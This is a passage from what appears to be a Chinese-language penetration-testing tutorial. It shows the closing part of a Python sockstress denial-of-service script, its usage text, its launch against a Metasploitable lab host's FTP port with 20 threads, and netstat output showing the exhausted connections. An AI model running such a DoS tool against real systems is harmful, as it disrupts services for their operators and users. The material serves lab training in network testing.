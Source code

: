 ```py

## Spin up multiple threads to launch the attack
print "\nThe onslaught has begun...use Ctrl+C to stop the attack" 
for x in range(0,threads):   
    thread.start_new_thread(sockstress, (target,dstport))

## Make it go FOREVER (...or at least until Ctrl+C) 
while 0 == 0:   
    sleep(1)

```

请注意，此脚本有两个主要功能，包括 sockstress 攻击功能和单独的正常关机功能。 关闭需要单独的函数，因为为了使脚本正常运行，脚本必须修改本地 iptables 规则。 此更改是必需的，以便使用 Scapy 完成与远程主机的 TCP 连接。 在第三章“端口扫描”的“使用 Scapy 配置连接扫描”中，更彻底地解决了这一问题。 在执行脚本之前，我们可以使用 netstat 和 free 工具为已建立的连接和正在使用的内存获取基线：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp6       0      0 172.16.36.131%13464:ssh 172.16.36.1%8191:49826  ESTABLISHED 
udp        0      0 localhost:32840         localhost:32840         ESTABLISHED 
msfadmin@metasploitable:~$ free -m 
             
             total       used       free     shared    buffers     cached 
Mem:           503        157        345          0         13         54 
-/+ buffers/cache:         89        413 
Swap:            0          0          0 
```

通过使用 netstat，然后通过管道输出到`grep`函数，并只提取已建立的连接，我们可以看到只存在两个连接。 我们还可以使用`free`工具查看当前的内存使用情况。 `-m`选项用于返回以兆字节为单位的值。 在确定已建立的连接和可用内存的基线后，我们可以对此目标服务器启动攻击：

```
root@KaliLinux:~# ./sock_stress.py 
Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads] 
Example - ./sock_stress.py 10.0.0.5 21 20 
Example will perform a 20x multi-threaded sock-stress DoS attack against the FTP (port 21) service on 10.0.0.

***NOTE*** 
Make sure you target a port that responds when a connection is made 
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
```

通过在没有任何提供的参数的情况下执行脚本，脚本将返回预期的语法和用法。脚本在执行时接受三个参数。这些参数包括目标 IP 地址，sock stress DoS 所发送的端口号，以及将用于执行 sock stress DoS 的线程或并发进程的数量。每个线程以生成 0 到 65,535 之间的整数值开始。此范围表示可分配给源端口的全部可能值。定义源和目的地端口地址的 TCP 报头的部分在长度上都是 16 比特。每个位可以为值 1 或 0。因此，有`2 ** 16`或 65,536 个可能的 TCP 端口地址。单个源端口只能维持单个连接，因此通过为每个连接生成唯一的源端口地址，我们可以大大提高攻击的效率。一旦攻击开始，我们可以通过检查在目标服务器上建立的活动连接，来验证它是否正常工作：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:25624     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12129     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31294     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:46731     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:15281     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:47576     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:27472     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:11152     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:56245     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:1161      ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:21064     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:29344     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:43747     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:59609     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31927     ESTABLISHED
```